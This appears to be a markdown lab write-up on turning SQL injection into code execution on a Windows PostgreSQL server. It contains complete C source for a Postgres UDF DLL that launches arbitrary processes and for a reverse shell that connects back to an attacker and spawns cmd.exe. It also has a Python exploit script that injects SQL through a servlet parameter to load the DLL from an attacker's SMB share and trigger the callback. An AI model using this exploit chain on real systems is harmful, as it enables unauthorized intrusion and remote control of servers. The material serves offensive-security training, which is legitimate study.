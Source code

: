 ## Custom Functions
We can load an extension in PostgreSQL using the following syntax style:

```PostgreSQL
CREATE OR REPLACE FUNCTION test(text) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;
```

However, the compiled extension we want to load must define an appropriate Postgres structure (magic block) to ensure that a dynamically library file is not loaded into an incompatible server.

For instance, loading the kernel32.dll file in the PostgreSQL database, it errors out due to a missing postgres magic block:

![](../../Screenshots/t2-ss16.png)

Thus, to build a custom postgres function, we need the help of visual studio.

## Building The Function
We will use the following code in c to build our postgres function:
```c#
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include "utils/builtins.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum awae(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(awae);

/* this function launches the executable passed in as the first parameter
in a FOR loop bound by the second parameter that is also passed*/
Datum
awae(PG_FUNCTION_ARGS)
{
	/* convert text pointer to C string */
#define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

    /* retrieve the second argument that is passed to the function (an integer)
    that will serve as our counter limit*/
    int instances = PG_GETARG_INT32(1);

    for (int c = 0; c < instances; c++) {
        /*launch the process passed in the first parameter*/
        ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);
    }
	PG_RETURN_VOID();
}

```

Here, the _awae_ function will launch an arbitrary process (passed to the function as the first argument) using the Windows native _ShellExecute_ function, in a loop that is bound by the second argument passed to the function.

We can now compile this solution, and test it in our database.
The following queries will create and run a UDF called _test_, bound to the _awae_ function exported by our custom DLL:

```postgresql
create or replace function test(text, integer) returns void as $$C:\awae.dll$$, $$awae$$ language C strict;
SELECT test($$calc.exe$$, 1);
```

This command will open 1 instance of the native windows calculator:

![](../../Screenshots/t2-ss17.png)

## The Reverse Shell
With the basis of the postgres function template, we can now build our reverse shell as follows:

```C#
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include <winsock2.h>
#include "utils/builtins.h"
#pragma comment(lib, "ws2_32")

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum connect_back(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(connect_back);

WSADATA wsaData;
SOCKET s1;
struct sockaddr_in hax;
char ip_addr[16];
STARTUPINFO sui;
PROCESS_INFORMATION pi;

Datum
connect_back(PG_FUNCTION_ARGS)
{

	/* convert C string to text pointer */
#define GET_TEXT(cstrp) \
   DatumGetTextP(DirectFunctionCall1(textin, CStringGetDatum(cstrp)))

	/* convert text pointer to C string */
#define GET_STR(textp) \
  DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

	WSAStartup(MAKEWORD(2, 2), &wsaData);
	s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

	hax.sin_family = AF_INET;
	/* FIX THIS */
	hax.sin_port = htons(PG_GETARG_INT32(1));
	/* FIX THIS TOO*/
	hax.sin_addr.s_addr = inet_addr(GET_STR(PG_GETARG_TEXT_P(0)));

	WSAConnect(s1, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

	memset(&sui, 0, sizeof(sui));
	sui.cb = sizeof(sui);
	sui.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
	sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE)s1;

	CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
	PG_RETURN_VOID();
}
```

We compile the project and rename our dll to rev_shell.dll and host it on a local network smb share.
Now we use the following python script to get a shell:
```python
import requests, sys
requests.packages.urllib3.disable_warnings()

def log(msg):
   print msg

def make_request(url, sql):
   log("[*] Executing query: %s" % sql[0:80])
   r = requests.get( url % sql, verify=False)
   return r

def create_udf_func(url):
   log("[+] Creating function...")
   sql = "CREATE OR REPLACE FUNCTIONrev_shell(text, integer) RETURNS void AS $$\\\\192.168.119.184\\web300_prep\\rev_shell.dll$$, $$connect_back$$ language c strict"
   make_request(url, sql)

def trigger_udf(url, ip, port):
   log("[+] Launching reverse shell...")
   sql = "select rev_shell($$%s$$, %d)" % (ip, int(port))
   make_request(url, sql)
   
if __name__ == '__main__':
   try:
       server = sys.argv[1].strip()
       attacker = sys.argv[2].strip()
       port = sys.argv[3].strip()
   except IndexError:
       print "[-] Usage: %s serverIP:port attackerIP port" % sys.argv[0]
       sys.exit()
       
   sqli_url  = "https://"+server+"/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;%s;--" 
   create_udf_func(sqli_url)
   trigger_udf(sqli_url, attacker, port)
```

Executing the python script:

![](../../Screenshots/t2-ss18.png)

We first get a callback on our smb server:

![](../../Screenshots/t2-ss19.png)

And subsequently get the reverse shell:

![](../../Screenshots/t2-ss20.png)